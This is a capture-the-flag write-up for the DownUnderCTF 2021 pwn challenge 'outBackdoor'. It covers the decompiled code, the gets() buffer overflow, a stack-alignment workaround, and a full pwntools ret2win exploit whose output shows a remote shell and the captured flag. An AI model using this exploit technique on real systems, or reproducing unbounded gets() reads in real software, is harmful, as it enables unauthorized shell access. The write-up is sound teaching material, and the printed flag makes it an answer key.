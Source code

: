 # DownUnderCTF 2021

## outBackdoor

> 100
> 
> Fool me once, shame on you. Fool me twice, shame on me.
> 
> Author: xXl33t_h@x0rXx
>
> `nc pwn-2021.duc.tf 31921`
>
> [`outbackdoor`](outbackdoor)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _ret2win_


## Summary

Basic _ret2win_ with a bonus stack alignment issue.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.


### Decompile with Ghidra   

```c
undefined8 main(void)
{
  char local_18 [16];
  
  buffer_init();
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(local_18);
  return 0;
}

void outBackdoor(void)
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  system("/bin/sh");
  return;
}
```

`gets(local_18);` is your vuln.  With no canary and no PIE, this is a simple `ret2win`.

`local_18` is `0x18` bytes from the return address, so just send `0x18` of garbage followed by the address of `outBackdoor`.

However...

It will crash ([stack alignment](https://blog.binpang.me/2019/07/12/stack-alignment/)).  Just test in GDB and It'll all make sense.  Also click the link aforementioned link.

There's two ways _out_ of this:

1. Create a ROP chain starting with `ret` to move the stack pointer down.
2. Call `outBackdoor+1` to avoid the `PUSH RBP` instruction.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./outbackdoor')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31921)
else:
    p = process(binary.path)

payload  = b''
payload += 0x18 * b'A'
payload += p64(binary.sym.outBackdoor+1)

p.sendlineafter(b'song?\n', payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/outbackdoor/outbackdoor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn-2021.duc.tf on port 31921: Done
[*] Switching to interactive mode


W...w...Wait? Who put this backdoor out back here?
$ cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
```
